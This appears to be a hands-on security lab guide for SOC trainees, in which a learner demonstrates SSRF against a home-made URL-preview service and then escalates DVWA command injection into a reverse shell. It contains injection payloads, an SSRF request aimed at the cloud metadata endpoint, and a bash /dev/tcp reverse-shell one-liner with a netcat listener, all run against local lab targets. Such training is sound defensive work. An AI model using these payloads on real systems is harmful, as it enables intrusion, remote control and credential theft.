







# Web App & API Security — SSRF & RCE (30–35 Minutes)

> Lab Type: Web App & API Security  
> Tool: curl, netcat, Burp Suite  
> Duration: 30–35 Minutes  
> System: Kali Linux (attacker + hosts both vulnerable services), DVWA (Docker)

---

## Lab Overview

You're still on the SOC team, but this time you're looking at two of the highest-impact web vulnerabilities out there: Server-Side Request Forgery (SSRF), where an application can be tricked into making requests on an attacker's behalf, and command injection, where unsanitized input reaches a shell directly.

In this lab, you'll build a small deliberately-vulnerable "URL preview" service to demonstrate SSRF against a simulated internal resource, then pivot to DVWA's Command Injection module to escalate from basic command execution to a full interactive reverse shell.

---

## Learning Objectives

By the end of this lab you will be able to:

- Identify a server-side URL-fetch feature as a potential SSRF sink
- Demonstrate SSRF by redirecting a vulnerable app's outbound request to an internal-only resource
- Explain why cloud metadata endpoints turn SSRF into credential theft in real deployments
- Exploit unsanitized shell input to achieve command injection
- Escalate command injection into a fully interactive reverse shell

---

## Scenario

A vulnerable "link preview" feature and DVWA's Command Injection module stand in for two real-world flaws you'd find in a SOC assessment: a backend that fetches attacker-controlled URLs without restriction, and a backend that passes user input straight into a shell command. Both run locally on your Kali VM, so nothing here reaches outside your own machine.

---

## Environment Setup

### Objective

Stand up the SSRF sink and the "internal-only" resource it isn't supposed to be able to leak from outside.

### Steps

1. Create the vulnerable "URL preview" app — a small stdlib-only Python script, no installs required:

   ```bash
   mkdir -p ~/ssrf-lab && cd ~/ssrf-lab
   nano ssrf_vuln_app.py
   ```

   The script exposes `GET /fetch?url=<url>` and calls `urllib.request.urlopen()` on whatever URL it's given, with no validation or allowlisting — that's the vulnerability.

   ```bash
   python3 ssrf_vuln_app.py
   ```

   

!!! warning
`serve_forever()` blocks the terminal on purpose — the prompt not returning after you run the script is expected, not a hang. Open a **second terminal** to run the verification/test commands instead of waiting on the first one to "finish."

2. Confirm it's actually listening before assuming it's broken:

   ```bash
   ss -tlnp | grep 8000
   ```

3. Stand up the "internal" resource in a separate terminal, bound to loopback so it represents something not meant to be reachable from outside the host:

   ```bash
   mkdir -p ~/internal-svc && cd ~/internal-svc
   echo "CONFIDENTIAL: internal-only payroll export link" > internal
   python3 -m http.server 5000 --bind 127.0.0.1
   ```

   

### Discussion Questions

??? question "Why use a custom stdlib script instead of a purpose-built SSRF training app?"

    Standing up a dedicated vulnerable app (e.g. via Docker) would mean pulling in extra images and dependencies for a single feature that's easy to reproduce directly. A 20-line script using only Python's standard library keeps the lab reproducible on stock Kali with nothing extra installed, while demonstrating the exact same flaw: an unvalidated server-side fetch.

---

## Demonstrating SSRF

### Objective

Confirm the app makes outbound requests on your behalf, then redirect that request to the internal resource.

### Steps

1. Baseline request, to confirm the fetch feature works normally first:

   ```bash
   curl "http://127.0.0.1:8000/fetch?url=http://example.com"
   ```

   

2. Redirect the same feature at the internal-only resource:

   ```bash
   curl "http://127.0.0.1:8000/fetch?url=http://127.0.0.1:5000/internal"
   ```

   If the response contains the "CONFIDENTIAL" string, the app made the request to the internal service on your behalf — SSRF confirmed.

   

3. **Cloud metadata variant (discussion only):** in a real cloud deployment, the same `url=` parameter pointed at `http://169.254.169.254/latest/meta-data/` can leak the instance's IAM credentials — this is what made SSRF a top-severity finding in real-world breaches (e.g. Capital One, 2019). No live cloud endpoint here, so this stays a discussion point rather than an executed step.

### Discussion Questions

??? question "Why does binding the internal service to 127.0.0.1 matter for this demo?"

    It represents a resource that's only supposed to be reachable from the local host itself, not from the outside network. The SSRF app can reach it because they're on the same machine — exactly mirroring how a real internal service (a metadata endpoint, an admin panel, an internal API) is only reachable from inside the network perimeter, and SSRF is what breaks that boundary.

??? question "Why is a denylist not a sufficient fix for SSRF?"

    Denylisting specific addresses (like blocking `127.0.0.1` or `169.254.169.254`) is trivially bypassed with redirects, DNS rebinding, alternate IP representations (e.g. decimal/octal encoding), or IPv6 equivalents. A strict allowlist of destinations the app is actually permitted to fetch is the only reliable fix.

---

## Command Injection and Reverse Shell Escalation

### Objective

Exploit unsanitized shell input on DVWA to run arbitrary commands, then escalate to a full interactive reverse shell.

### Steps

1. Start (or resume) the DVWA container:

   ```bash
   sudo docker ps -a
   sudo docker start dvwa
   sudo docker ps
   ```

!!! warning
A container that's been stopped since your last session shows as `Exited` under `docker ps -a`, and the app won't be reachable until you `docker start` it — a browser "Unable to connect" error here is a stopped container, not a broken app. Confirm `STATUS` shows `Up ...` before troubleshooting further.

2. Log into DVWA at `http://127.0.0.1/` with `admin` / `password`.

!!! warning
On a fresh or reset container, login can fail until the database exists. If so, visit `http://127.0.0.1/setup.php` and click **Create / Reset Database** first.

3. Go to **DVWA Security**, set the level to **Low**, then open **Command Injection**.

4. Submit either payload to confirm unsanitized input reaches the shell:

   ```
   127.0.0.1; whoami
   ```
   or
   ```
   127.0.0.1 | id
   ```

   

5. Before escalating, find the address the container needs to reach back to. DVWA runs on Docker's default bridge network, so `127.0.0.1` from inside the container refers to the container itself, not your Kali host — you need the bridge gateway address instead:

   ```bash
   ip -4 addr show docker0 | grep -oP '(?<=inet\s)\d+(\.\d+){3}'
   ```

!!! warning
Using `127.0.0.1` as the callback address here fails silently — the container just connects back to itself, not to your listener. The gateway address (typically `172.17.0.1` on the default bridge) is what actually routes back to the host. If you'd rather avoid this step entirely, re-run the container with `--network host` and use `127.0.0.1` directly instead — either approach works, this lab used the gateway-address route to keep the existing container untouched.

6. Start the listener on Kali:

   ```bash
   nc -lvnp 4444
   ```

   

7. In the DVWA Command Injection field, submit:

   ```
   127.0.0.1; bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'
   ```

   Switch to the netcat terminal — a caught shell drops you straight to a prompt. Confirm interactivity with `whoami` and `id`.

   

8. Close out the session cleanly rather than just killing the terminal:

   ```bash
   exit
   ```

### Discussion Questions

??? question "Why does the payload need the Docker bridge gateway IP instead of 127.0.0.1?"

    The reverse shell payload runs inside the DVWA container's own network namespace, where `127.0.0.1` refers to the container itself. The Kali host — where the netcat listener actually lives — is only reachable from inside a bridged container via the bridge network's gateway address, since that's the container's route back out to the host.

??? question "Why escalate a simple command injection into a full reverse shell at all?"

    A one-off `whoami` proves the vulnerability exists, but a reverse shell demonstrates actual impact — persistent, interactive access to the underlying system, which is what an attacker would realistically pursue. It's the difference between "this is technically injectable" and "this is a full compromise."

---

## Learning Outcomes

Having completed this lab, you have:

- Identified an unvalidated server-side URL-fetch feature as an SSRF sink
- Demonstrated SSRF by redirecting a vulnerable app's request to an internal-only resource
- Understood how the same technique escalates to credential theft against real cloud metadata endpoints
- Exploited unsanitized input on DVWA's Command Injection module
- Escalated command injection into a fully interactive reverse shell, accounting for Docker's bridge networking along the way
